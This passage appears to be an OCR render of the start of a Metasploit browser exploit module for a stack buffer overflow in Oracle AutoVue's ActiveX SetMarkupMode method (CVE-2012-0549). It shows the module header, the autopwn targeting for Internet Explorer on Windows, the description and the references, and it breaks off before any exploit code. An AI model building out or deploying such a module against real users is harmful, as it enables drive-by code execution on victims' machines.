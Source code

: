 EXP
---

    ##
    # This file is part of the Metasploit Framework and may be subject to
    # redistribution and commercial restrictions. Please see the Metasploit
    # web site for more information on licensing and terms of use.
    #   http://metasploit.com/
    ##

    require 'msf/core'

    class Metasploit3 < Msf::Exploit::Remote
     Rank = NormalRanking

     include Msf::Exploit::Remote::HttpServer::HTML
     include Msf::Exploit::Remote::Seh
     include Msf::Exploit::Remote::BrowserAutopwn

     autopwn_info({
      :ua_name    => HttpClients::IE,
      :ua_minver  => "6.0",
      :ua_maxver  => "9.0",
      :javascript => true,
      :os_name    => OperatingSystems::WINDOWS,
      :classid    => "{B6FCC215-D303-11D1-BC6C-0000C078797F}",
      :method     => "SetMarkupMode",
      :rank       => NormalRanking
     })


     def initialize(info = {})
      super(update_info(info,
       'Name'           => 'Oracle AutoVue ActiveX Control SetMarkupMode Buffer Overflow',
       'Description'    => %q{
         This module exploits a vulnerability found in the AutoVue.ocx ActiveX control.
        The vulnerability, due to the insecure usage of an strcpy like function in the
        SetMarkupMode method, when handling a specially crafted sMarkup argument, allows
        to trigger a stack based buffer overflow which leads to code execution under the
        context of the user visiting a malicious web page.

        The module has been successfully tested against Oracle AutoVue Desktop Version
        20.0.0 (AutoVue.ocx 20.0.0.7330) on IE 6, 7, 8 and 9 (Java 6 needed to DEP and
        ASLR bypass).
       },
       'Author'         =>
        [
         'Brian Gorenc', # Vulnerability discovery
         'juan' # Metasploit module
        ],
       'License'        => MSF_LICENSE,
       'References'     =>
        [
         [ 'CVE', '2012-0549' ],
         [ 'BID', '53077' ],
         [ 'OSVDB', '81439' ],
         [ 'URL', 'http://dvlabs.tippingpoint.com/advisory/TPTI-12-05' ],
         [ 'URL', 'http://www.oracle.com/technetwork/topics/security/cpuapr2012-366314.html' ]
